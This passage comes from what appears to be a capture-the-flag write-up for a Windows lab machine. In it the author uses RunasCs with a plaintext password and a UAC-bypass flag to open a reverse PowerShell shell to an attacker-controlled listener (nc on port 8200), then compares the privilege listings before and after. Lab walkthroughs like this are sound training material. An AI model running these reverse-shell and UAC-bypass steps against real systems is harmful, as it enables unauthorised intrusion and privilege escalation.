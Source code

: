 And we see this shell doesn't have that many privileges.

```shell
PS C:\users\administrator> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
PS C:\users\administrator>
```

We know notice the message last time connecting with RunasCs.

```shell
[*] Warning: The logon for user 'backup' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.
```

So we have to bypass the UAC. And we do this by going back to and run RunasCs again, but this time with `--bypass-uac`. First we kill and restart the local listener and then we run again.

```shell
.\RunasCS.exe backup RvzaJaBnQqapiEEvLhUsIARzJFLZTVgVTOdqKNku powershell -r 10.10.14.25:8200 --bypass-uac
```

```shell
labadmin@labmachine:~/napper$ nc -lvnp 8200
Listening on 0.0.0.0 8200
Connection received on 10.10.11.240 49504
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Windows\system32> whoami
whoami
napper\backup
PS C:\Windows\system32>  whoami /priv
 whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
```